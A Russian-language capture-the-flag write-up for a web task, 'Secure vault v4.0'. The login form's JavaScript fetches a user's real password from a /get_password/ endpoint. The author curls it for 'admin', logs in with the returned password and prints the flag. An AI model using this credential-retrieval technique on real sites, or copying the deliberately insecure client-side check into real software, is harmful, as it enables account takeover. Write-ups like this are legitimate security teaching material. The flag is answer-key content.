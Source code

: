 # Secure vault v4.0 writeup
На сайте есть форма логина с полями юзернейма и пароля. SQL-инъекции не работают, так что давайте изучать сайт в поиске интересного.

Кук нету, в html никаких секретиков. Единственное, что можно изучить - как отправляется форма. Взглянем на html формы:

```html
<form action="" method="post" class="justify-content-center" id="login-form" onsubmit="return validateForm();">
	<p>
	 	<label class="form-check-label" for="username" style="align:center">Username</label>
		<br>
		<input id="form-username" name="username" required type="text" value=""> </p>
	<p>
		<label class="form-check-label" for="password" style="align:center">Password</label>
		<br>
		<input id="form-password" name="password" required type="password" value="">
	</p>
	<p>
		<input class="btn btn-danger" id="form-button" name="submit" type="submit" value="Login">
	</p>
</form>
```

Как видно в тэге `<form>`,  обработкой формы занимается функция `validateForm()`. Взглянем на нее:

```js
var isCorrect = false;

function checkPassword() {
    let url = "/get_password/";
    let xhr = new XMLHttpRequest();

    xhr.open("GET", url + $("#form-username")[0].value + "/", false);
    xhr.onloadend = function () {
        let response = xhr.responseText;
        if (response == "INCORRECT_USERNAME") {
            $("#error-msg")[0].innerHTML = "Incorrect username."
        }
        else {
            let currPassword = $("#form-password")[0].value;
            if (currPassword == response) {
                isCorrect = true;
            }
            else {
                $("#error-msg")[0].innerHTML = "Incorrect password.";
            }
        }

    };

    xhr.setRequestHeader("Content-Type", "text/plain");
    xhr.send();
    return true;
}

function validateForm() {
    Promise.all(checkPassword())
    if (isCorrect) {
        isCorrect = false;
        return true;
    }
    return false;  
}
```

Функция получает пароль пользователя через GET-запрос на эндпоинт `/get_password/`. Далее оригинальный пароль сравнивается с тем, что ввел пользователь. Выходит, мы можем попробовать запросить пароль админа:

```bash
$ curl http://0.0.0.0:21011/get_password/admin/
c&azl+1xYqmNtxA#a?q
```

Попробуем войти под полученными учетными данными, в ответ получаем:

```html
<div class="p-3 mb-2 bg-secondary text-white row justify-content-center">
	li2CTF{H000000W????_M4n_1'll_b3_b4ck_1n_4_y34r_w17h_MUCH_b3773r__s3cUr1ty!}
</div>
```

Флаг: `li2CTF{H000000W????_M4n_1'll_b3_b4ck_1n_4_y34r_w17h_MUCH_b3773r__s3cUr1ty!}`
